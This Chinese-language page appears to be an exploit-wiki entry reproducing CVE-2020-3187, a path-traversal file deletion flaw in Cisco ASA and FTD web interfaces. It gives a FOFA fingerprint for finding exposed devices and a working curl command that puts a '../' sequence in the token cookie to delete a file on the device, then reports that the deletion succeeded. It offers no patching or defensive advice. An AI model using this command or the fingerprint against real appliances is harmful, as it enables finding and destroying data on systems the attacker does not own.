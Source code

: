 # CISCO ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

Cisco ASA设备

![](image/cisco-1.png)

Cisco FTD设备

![](image/cisco-2.png)

## FOFA

> [!NOTE]
>
> /+CSCOE+/
>
> Cisco-ASA

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞

![](image/cisco-6.png)

例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif

![](image/cisco-7.png)

使用 curl 发送请求

```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```

![](image/cisco-8.png)

成功删除图标